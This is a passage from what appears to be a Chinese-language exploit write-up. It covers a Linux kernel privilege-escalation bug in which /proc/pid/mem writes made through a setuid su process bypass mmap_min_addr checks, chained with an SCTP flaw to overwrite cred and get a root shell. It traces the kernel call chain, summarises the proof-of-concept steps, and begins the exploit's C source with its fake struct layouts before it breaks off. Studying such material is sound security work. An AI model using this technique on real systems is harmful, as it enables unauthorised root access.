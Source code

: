 ~~~c
}
~~~

那么可以看到`expand_stack`函数的调用，这就对应了我们之前的函数追踪过程。分析一下：

* 如果`vma->vm_start`小于等于`addr`，那么我们就返回相关的虚拟地址,这也说明addr在vma空间范围内。
* 如果不在的话，那么说明addr落在地址空洞里面，这时候如果设置了`VM_GROWSDOWN`标志位，那么调用`expand_stack`函数扩展vma，这是我们想要的。

完整调用链：mem_write -> mem_rw -> access_remote_vm -> __access_remote_vm -> get_user_pages_remote -> __get_user_pages_locked -> __get_user_pages -> find_extend_vma -> expand_stack -> expand_downwards -> security_mmap_addr -> cap_mmap_addr

从头到尾其实也是这个调用链逐步深入的过程。

`poc分析总结：`

* 其核心在于system在执行过程中会通过fork调用子进程，如果我们通过system函数调用LD_DEBUG=help su 1>&%d命令执行write操作，该函数检测的current_cred()就是执行write的进程的cred，而不是vma被改变的进程的cred。而且write操作是root的。
* 我们需要顺利执行`get_user_pages_retmote`函数，因为只有它成功执行了，`maddr = kmap(page);`才会被调用，我们才可以将地址映射出来



1. POC中，我们首先通过`lseek`使得文件指针执行用户不可访问的区域
2. 通过system()调用子进程实现调用`write`操作使得权限提升为root的进程里面绕过安全检查，内存被成功映射。
3. 在子进程结束后，内存映射已经完成，我们可以实现0地址映射。(nice)

## EXP分析

这里面其实还用到了关于`SCTP`的另一个漏洞，其实最终的实现提权的方式还是修改`cred`，利用commit_creds提权开启shell

`SCTP协议`：

> https://docs.oracle.com/cd/E19253-01/819-7052/sockets-18/index.html

当`socket`调用`IPPROTO_SCTP`创建套接字的时候，他会调用特定于`SCTP`的套接字创建例程。针对 SCTP 套接字执行的套接字调用会自动调用相应的 SCTP 套接字例程。

~~~c
#define _GNU_SOURE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <arpa/inet.h>
#include <pthread.h>
#include <error.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/sctp.h>
#include <netinet/in.h>
#include <time.h> 
#include <malloc.h>
#include <sys/mman.h>
#include <err.h>
#include <signal.h>
#define SERVER_PORT 6666
#define SCTP_GET_ASSOC_ID_LIST	29
#define SCTP_RESET_ASSOC	120
#define SCTP_ENABLE_RESET_ASSOC_REQ	0x02
#define SCTP_ENABLE_STREAM_RESET	118
struct sock
{
        char pad1[0x24];
        void *net;
        char pad[0x278];
        int type;
};

struct sctp_association
~~~